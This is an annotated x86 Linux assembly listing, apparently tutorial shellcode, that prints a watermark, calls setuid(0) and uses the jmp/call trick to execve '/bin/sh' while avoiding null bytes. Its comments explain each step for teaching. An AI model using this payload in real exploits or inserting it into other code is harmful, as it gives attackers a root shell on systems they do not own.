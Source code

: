 ```text
# using the .data section for write permission
# instead of .text section
.section .data
.globl _start

_start:
     # displaying some characters for watermarking :-)
     xor %eax,%eax      # clear eax by setting eax to 0
     xor %ebx,%ebx      # clear ebx by setting ebx to 0
     xor %edx,%edx      # clear edx by setting edx to 0
     push %ebx          # push ebx into the stack, base pointer
                        # for the stack frame
     push $0xa696e55    # push U-n-i characters
     push $0x4d555544   # push M-U-U-D characters
     push $0x414d4841   # push A-M-H-A characters
     movl  %esp,%ecx    # move the sp to ecx
     movb  $0xf,%dl     # move 15 to dl (low d), it is the string length,
                        # notice the use of movb - move byte, this is to avoid null
     movb  $0x4,%al     # move 4 to al (low l),
                        # 4 is system call number for
                        # write(int fd, char *str, int len)
     int  $0x80         # call kernel/syscall

     # setuid(0)
     xor %eax,%eax      # clear eax by setting eax to 0
     xor %ebx,%ebx      # clear ebx by setting ebx to 0
     xor %ecx,%ecx      # clear ecx by setting ecx to 0
     movb $0x17,%al     # move 0x17 into al - setuid(0)
     int $0x80          # call kernel/syscall

     jmp do_call        # jump to get the address with the call trick

jmp_back:
     pop %ebx           # ebx (base pointer=stack frame pointer) has 
                        # the address of our string, use it to index
     xor %eax,%eax      # clear eax by setting eax to 0
     movb %al,7(%ebx)   # put a null at the N or shell[7]
     movl %ebx,8(%ebx)  # put the address of our string (in ebx) into shell[8]

     movl %eax,12(%ebx) # put the null at shell[12] our string now looks something like
                        # "/bin/sh\0(*ebx)(*0000)"
     xor %eax,%eax      # clear eax by setting eax to 0
     movb $11,%al       # put 11 which is execve

# syscall number into al
     leal 8(%ebx),%ecx  # put the address of XXXX i.e. (*ebx) into ecx
     leal 12(%ebx),%edx # put the address of YYYY i.e. (*0000) into edx
     int $0x80          # call kernel/syscall

do_call:
     call jmp_back

shell:
     .ascii "/bin/shNXXXXYYYY"
```
